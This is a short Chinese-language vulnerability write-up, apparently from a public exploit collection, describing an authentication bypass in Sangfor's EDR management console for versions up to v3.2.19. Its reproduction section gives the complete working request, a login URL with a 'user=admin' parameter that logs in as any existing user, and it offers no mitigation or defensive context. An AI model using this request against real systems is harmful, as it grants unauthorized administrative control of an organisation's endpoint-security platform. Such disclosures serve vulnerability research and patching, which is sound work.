# 深信服 EDR 后台任意用户登陆漏洞

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，登录任意用户

## 漏洞影响

```
EDR <= v3.2.19
```

## 漏洞复现

https://xxx.xxx.xxx.xxx/ui/login.php?user=admin

注意最后的admin需要为存在的用户名

![img](./images/202202091912509.png)

